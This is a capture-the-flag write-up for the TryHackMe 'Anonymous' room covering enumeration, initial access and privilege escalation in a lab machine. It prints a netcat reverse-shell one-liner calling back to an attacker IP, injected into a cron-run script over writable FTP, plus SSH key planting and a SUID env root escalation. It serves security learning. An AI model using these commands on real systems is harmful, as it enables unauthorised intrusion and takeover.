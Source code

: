# Anonymous

- https://tryhackme.com/room/anonymous
- March 10, 2022
- easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 2.0.8 or later
    - anonymouslogin allowed
    - access rwx directory -> scripts
    - FTP server status: Connected to ::ffff:10.11.8.57

2. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

3. 139/tcp Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
4. 445/tcp Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

### FTP 

- anonymous login
- NamelessOne's FTP Server!
- scripts directory (rwx) to anonymous
- 3 files -> `clean.sh`, `removed_files.log`, `to_do.txt`
- get all three to local machine
- nothing interesting till now, may be clean.sh file for later use
- clean.sh create removed_files.log

### Samba

- enumerate with smbmap with anonymous login
- 3 dirs found, `pics` has READ ONLY, other twos - NO ACCESS
- get two image files, `corgo2.jpg`, `puppos.jpeg`

- `binwalk` shows there are hidden file in puppos.jpeg
- analyse `puppos.jpeg`
- there are a lot of info with `exiftool`
- I have spent a lot of time with this image

- I re-entered into ftp and found that the removed_files.log has increasing file size
- is it running with cron jobs?

## User Access

- we have write access in scripts directory in ftp
- add a reverse-shell script in clean.sh file

```sh
#!/bin/bash

...
## added
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```
- enter ftp and `put clean.sh` in scripts directory
- wait for a minute and get `namelessone` shell

![](2023-03-10-17-15-11.png)

- To get ssh shell, in local machine create id_rsa pair with `ssh-keygen`, then `cat id_rsa.pub` 
    - in namelessone's shell, create `.ssh` folder under his home folder
    - paste the `id_rsa.pub` content as `authorized_keys`
    - then can enter namelessone's ssh with id_rsa 



## Root Access

```sh
namelessone@anonymous:~$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

namelessone@anonymous:/tmp$ ls -la $(which env)
-rwsr-xr-x 1 root root 35000 Jan 18  2018 /usr/bin/env
namelessone@anonymous:/tmp$ env /bin/sh -p
# whoami
root

```
- lxd is also vulnerable 

![](2023-03-10-17-31-38.png)

- in lxd, original files are located under `mnt/root` 
- detail of lxd exploit is written in [Gaming Server Room](./TryHackMe/gaming_server/readme.md).
---